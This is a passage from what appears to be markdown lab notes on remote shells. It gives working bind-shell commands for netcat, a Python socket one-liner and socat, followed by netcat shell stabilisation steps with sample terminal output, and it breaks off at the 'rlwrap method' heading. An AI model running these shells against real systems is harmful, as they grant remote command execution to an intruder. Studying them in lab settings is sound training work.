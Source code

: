 **B. Bind shell**

```bash
# Listener (Target)
nc -lvnp 4444 -e /bin/bash

# connect back (Attacker)
nc 10.10.246.202 4444
```

<img width="1795" height="822" alt="image" src="https://github.com/user-attachments/assets/c8cb9f66-a048-4f89-bbcc-04fba550bc0f" />

[Python Bind Shell (Linux)](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-bind-cheatsheet/#python)

```bash
python -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",51337));s1.listen(1);c,a=s1.accept();\nwhile True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'
```

[Socat Bind Shell (Linux)](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-bind-cheatsheet/#socat)

```bash
# Listener (Attacker)
socat FILE:`tty`,raw,echo=0 TCP:target.com:12345

# conncet back (Target)
socat TCP-LISTEN:12345,reuseaddr,fork EXEC:/bin/sh,pty,stderr,setsid,sigint,sane
```

---

### Netcat Shell Stabilisation

1. **Python method:** 

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
shell@ip-10-10-246-202:~$ export TERM=xterm
export TERM=xterm
shell@ip-10-10-246-202:~$ ^Z
[1]+  Stopped                 nc -lvnp 8080
root@ip-10-10-61-237:~# stty raw -echo;fg
nc -lvnp 8080
shell@ip-10-10-246-202:~$
```

<img width="1758" height="799" alt="image" src="https://github.com/user-attachments/assets/e42e2ee0-b14f-431f-b313-e3fcd2e67f32" />

use **`reset`** or **`stty sane`** to restore default settings

---

2. **rlwrap method**
